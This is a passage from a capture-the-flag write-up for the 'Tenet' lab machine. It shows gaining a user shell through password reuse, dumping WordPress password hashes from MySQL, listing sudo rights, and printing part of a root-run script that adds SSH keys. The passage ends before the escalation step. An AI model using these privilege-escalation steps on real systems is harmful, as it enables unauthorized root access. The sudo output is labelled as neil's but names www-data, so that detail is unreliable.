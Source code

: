 As credential reuse is common, running `su neil` and providing the recently found password, we have succeeded in accessing the machine as this user and getting the user flag.

```bash
neil@tenet:~$ id
uid=1001(neil) gid=1001(neil) groups=1001(neil)
neil@tenet:~$ cat ~/user.txt
<redacted>
neil@tenet:~$
```

## Root Flag

In the path for root flag, decided to dump the database credentials in this machine, returning the following hashes.

```plaintext
mysql> select user_login,user_pass from wp_users;
+-------------+------------------------------------+
| user_login  | user_pass                          |
+-------------+------------------------------------+
| protagonist | $P$BqNNfN07OWdaEfHmGwufBs.b.BebvZ. |
| neil        | $P$BtFC5SOvjEMFWLE4zq5DWXy7sJPUqM. |
+-------------+------------------------------------+
2 rows in set (0.00 sec)
```

Before trying to crack those hashes, being `protagonist` password reused from `root`, decided to check which permissions did `neil` had by running `sudo -l`, which resulted in the output below.

```plaintext
Matching Defaults entries for www-data on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:
    
User www-data may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

Inspecting the content of this file, we can see that it can be used to activate SSH login for `root` enforcing an existing SSH public key.

```bash
#!/bin/bash

checkAdded() {
    sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
    if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
        /bin/echo "Successfully added $sshName to authorized_keys file!"
    else
        /bin/echo "Error in adding $sshName to authorized_keys file!"
    fi
}

checkFile() {
    if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
        /bin/echo "Error in creating key file!"
        if [[ -f $1 ]]; then /bin/rm $1; fi
        exit 1
    fi
}

addKey() {
    tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
    (umask 110; touch $tmpName)
    /bin/echo $key >>$tmpName
    checkFile $tmpName
```